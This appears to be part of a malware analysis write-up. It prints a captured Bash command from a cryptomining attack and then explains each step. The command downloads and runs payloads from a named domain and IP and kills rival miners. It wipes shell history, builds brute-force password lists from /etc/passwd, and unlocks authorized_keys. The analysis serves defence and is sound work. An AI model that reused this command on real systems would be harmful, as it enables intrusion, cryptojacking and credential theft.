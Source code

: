 The discovered Bash command is as follows:

```
./retea -c "KOFVwMxV7k7XjP7fwXPY6Cmp16vf8EnL54650LjYb6WYBtuSs3Zd1Ncr3SrpvnAU" ]]thenecho -e ""elseecho Logged with successfully.rm -rf .retea crontab -r ; pkill xrx ; pkill haiduc ; pkill blacku ; pkill xMEu ; cd /var/tmp ; rm -rf /dev/shm/.x /var/tmp/.update-logs /var/tmp/Documents  /tmp/.tmp ; mkdir /tmp/.tmp ; pkill Opera ; rm -rf xmrig  .diicot .black Opera ; rm -rf .black xmrig.1 ; pkill cnrig ; pkill java ; killall java ;  pkill xmrig ; killall cnrig ; killall xmrig ; wget -q dinpasiune[.]com/payload || curl -O -s -L dinpasiune.com/payload || wget85.31.47.99/payload || curl -O -s -L85.31.47.99/payload ; chmod +x * ; ./payload >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_historychmod +x .teaca ; ./.teaca > /dev/null 2>&1 ; history -c ; rm -rf .bash_history ~/.bash_historyfirm -rf /etc/sysctl.conf ; echo "fs.file-max = 2097152" > /etc/sysctl.conf ; sysctl -p ; ulimit -Hn ; ulimit -n 99999 -u 999999cd /dev/shmmkdir /dev/shm/.x > /dev/null 2>&1mv network .x/cd .xrm -rf retea ips iptemp ips iplistsleep 1rm -rf passuseri=`cat /etc/passwd |grep -v nologin |grep -v false |grep -v sync |grep -v halt|grep -v shutdown|cut -d: -f1`echo $useri > .usrspasus=.usrscheck=`grep -c . .usrs`for us in $(cat $pasus) ; doprintf "$us $us\n" >> passprintf "$us $us"$us"\n" >> passprintf "$us "$us"123\n" >> passprintf "$us "$us"123456\n" >> passprintf "$us 123456\n">> passprintf "$us 1\n">> passprintf "$us 12\n">> passprintf "$us 123\n">> passprintf "$us 1234\n">> passprintf "$us 12345\n">> passprintf "$us 12345678\n">> passprintf "$us 123456789\n">> passprintf "$us 123.com\n">> passprintf "$us 123456.com\n">> passprintf "$us 123\n" >> passprintf "$us 1qaz@WSX\n" >> passprintf "$us "$us"@123\n" >> passprintf "$us "$us"@1234\n" >> passprintf "$us "$us"@123456\n" >> passprintf "$us "$us"123\n" >> passprintf "$us "$us"1234\n" >> passprintf "$us "$us"123456\n" >> passprintf "$us qwer1234\n" >> passprintf "$us 111111\n">> passprintf "$us Passw0rd\n" >> passprintf "$us P@ssw0rd\n" >> passprintf "$us qaz123!@#\n" >> passprintf "$us !@#\n" >> passprintf "$us password\n" >> passprintf "$us Huawei@123\n" >> passdonewaitsleep 0.5cat bios.txt | sort -R | uniq | uniq > icat i > bios.txt./network "rm -rf /var/tmp/Documents ; mkdir /var/tmp/Documents 2>&1 ; crontab -r ; chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1 ; cd /var/tmp ; chattr -iae /var/tmp/Documents/.diicot ; pkill Opera ; pkill cnrig ; pkill java ; killall java ;  pkill xmrig ; killall cnrig ; killall xmrig ;cd /var/tmp/; mv /var/tmp/diicot /var/tmp/Documents/.diicot ; mv /var/tmp/kuak /var/tmp/Documents/kuak ; cd /var/tmp/Documents ; chmod +x .* ; /var/tmp/Documents/.diicot >/dev/null 2>&1 & disown ; history -c ; rm [-rf] .bash_history ~/.bash_history ; rm -rf /tmp/cache ; cd /tmp/ ; wget -q 85.31.47.99/.NzJjOTYwxx5/.balu || curl -O -s -L 85.31.47.99/.NzJjOTYwxx5/.balu ; mv .balu cache ; chmod +x cache ; ./cache >/dev/null 2>&1 & disown  ; history -c ; rm -rf .bash_history ~/.bash_history"sleep 25function Miner {rm -rf /dev/shm/retea /dev/shm/.magic ; rm -rf /dev/shm/.x ~/retea /tmp/kuak /tmp/diicot /tmp/.diicot ;  rm -rf ~/.bash_historyhistory -c}Miner' ./retea KOFVwMxV7k7XjP7fwXPY6Cmp16vf8EnL54650LjYb6WYBtuSs3Zd1Ncr3SrpvnAU Haceru
```

Upon analyzing this command, it seems like the script was trying to do the following:

- Install a malware called `retea`
- Delete any other cryptomining software that may already be present (i.e. haiduc, blacku, xMEu, xmrig, cnrig, etc.)
- Remove previous cron jobs and temp folder to clear any trace of malware
- Deletes activity history with `/.bash_history`, `.bash_history`, and `history -c`.
- Tries to modify `ulimit` and `/etc/sysctl.conf` to increase processing power.
- Download a malicious payload from a domain called `dinpasiune[.]com` from IP `85[.]31.47.99`
- Reads the `/etc/passwd` in order to access other user credentials and create a list of password/user permutations.
- Recreates the `/var/tmp/Documents` directory and stores `diicot` and `kuak` files into them (malware)
- Modifies `authorized_keys`, removes file immutability (`chattr -iae`).
- Executes secondary payloads again (`.balu`, `cache`, etc.)
- Deletes all miner-payload related folders and history to prevent detection.
